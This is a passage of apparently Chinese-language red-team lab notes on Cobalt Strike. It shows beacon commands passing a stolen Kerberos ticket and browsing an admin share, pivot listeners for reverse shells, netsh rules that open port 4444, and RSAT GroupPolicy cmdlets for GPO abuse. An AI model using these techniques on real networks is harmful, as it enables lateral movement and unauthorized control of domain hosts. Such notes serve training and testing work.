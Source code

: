 beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\jking.kirbi

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot

```

# GPO

# Pivot Listeners

其实这里就是监听，前面一直都是正向连接shell，这里是反向连接shell，从靶机到CS，因为GPO作用的时间可能不可控，当命令生效时马上反向连接到CS，在这个场景下reverse shell是比较好的策略。

CS新建一个rev shell

![alt rev](https://rto-assets.s3.eu-west-2.amazonaws.com/pivot-listener/new-pivot-listener.png?width=1920)

注意监听的端口是否在靶机上运行出站


使用```netsh```命令允许防火墙让4444端口出站
```
netsh advfirewall firewall add rule name="Allow 4444" dir=in action=allow protocol=TCP localport=4444
```

删除上面的出站规则
```
netsh advfirewall firewall delete rule name="Allow 4444" protocol=TCP localport=4444
```

# Remote Server Administration Tools (RSAT)

RSAT(Remote Server Administration Tools)是 是 Microsoft 提供的一个管理组件，期中GroupPolicy 模块具有多个可用于管理 GPO 的 PowerShell cmdlet，包括

- New-GPO：创建一个新的空 GPO。
- New-GPLink：将 GPO 链接到站点、域或 OU。
- Set-GPPrefRegistryValue：在计算机或用户配置下配置注册表首选项。
- Set-GPRegistryValue：在计算机或用户配置下配置一个或多个基于注册表的策略设置。
- Get-GPOReport：生成 XML 或 HTML 格式的报告。


检查是否安装了GroupPolicy 模块
```
Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
```

安装GroupPolicy 模块，需要本地管理员权限
```
Install-WindowsFeature –Name GPM
```

创建一个空的GPO，并且链接到指定的OU上
```
beacon> getuid
[*] You are DEV\jking
